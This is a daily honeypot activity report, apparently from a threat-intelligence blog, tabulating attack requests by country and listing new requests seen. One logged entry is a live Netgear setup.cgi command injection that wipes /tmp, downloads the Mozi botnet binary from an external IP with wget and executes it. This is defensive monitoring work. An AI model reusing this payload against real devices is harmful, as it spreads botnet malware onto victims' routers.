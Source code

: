 ```yaml
---
title: "Report: 2025-06-07 "
date: 2025-06-07
desciption: "Report: 2025-06-07" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-07 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 7 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 806 requests were recorded during the day, originating from 1 different countries, with a peak of 222 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                     |
|:--------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.230.66.57  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.230.66.57:11823/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                              |
|----:|----------------------:|:-----------------------------------------------------|
|  61 |                     2 | GET /rules HTTP/1.1                                  |
|  63 |                     2 | GET /rules HTTP/1.0                                  |
|  67 |                     2 | GET /get_params.cgi HTTP/1.1                         |
| 218 |                     1 | GET /tisv2/a/de/ HTTP/1.1                            |
| 273 |                     1 | \x04\x01\x00P\xD0_p\x01\x00                          |
| 309 |                     1 | \x00\x0E8\x93\xA8\xB9&ZiX\xB7\x00\x00\x00\x00\x00    |
| 310 |                     1 | \x00\x0E\x08\x93\xA8\xB9&ZiX\xB7\x00\x00\x00\x00\x00 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   222 | US                 |
|  1 |                    97 | JP                 |
|  2 |                    92 | BG                 |
|  3 |                    55 | NL                 |
|  4 |                    54 | GB                 |
|  5 |                    54 | VN                 |
|  6 |                    43 | DE                 |
|  7 |                    33 | CA                 |
|  8 |                    25 | IN                 |
|  9 |                    23 | FR                 |
| 10 |                    20 | NG                 |
| 11 |                    10 | CN                 |
| 12 |                     9 | PL                 |
| 13 |                     8 | HK                 |
| 14 |                     6 | ZA                 |
| 15 |                     6 | SC                 |
| 16 |                     5 | AO                 |
| 17 |                     5 | GH                 |
| 18 |                     4 | KR                 |
| 19 |                     4 | BE                 |
| 20 |                     3 | PT                 |
| 21 |                     3 | AR                 |
| 22 |                     2 | ES                 |
| 23 |                     2 | RU                 |
| 24 |                     2 | IT                 |
| 25 |                     2 | UA                 |
| 26 |                     2 | KZ                 |
| 27 |                     2 | IE                 |
| 28 |                     2 | SG                 |
| 29 |                     2 | BR                 |
| 30 |                     1 | ID                 |
| 31 |                     1 | SE                 |
| 32 |                     1 | MC                 |
| 33 |                     1 | RO                 |
| 34 |                     1 | GR                 |
| 35 |                     1 | IL                 |
| 36 |                     1 | PA                 |
| 37 |                     1 | LT                 |
| 38 |                     1 | IR                 |
